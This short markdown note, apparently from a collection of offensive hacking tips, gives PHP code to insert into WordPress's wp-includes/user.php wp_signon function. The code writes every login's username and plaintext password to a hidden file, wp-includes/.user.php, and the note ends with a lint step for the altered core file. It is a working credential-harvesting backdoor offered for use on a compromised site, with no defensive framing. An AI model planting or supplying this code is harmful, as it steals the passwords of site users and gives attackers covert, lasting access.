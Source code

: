 # Log Wordpress logins
Credits: Phineas Fisher

in `wp-includes/user.php`, function `wp_signon`:

```
if ( ! empty($_POST['pwd']) ) {
    $credentials['user_password'] = $_POST['pwd'];
    file_put_contents("wp-includes/.user.php", "WP: " . $_POST['log'] . " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```

--> Lint with `php -l user.php`
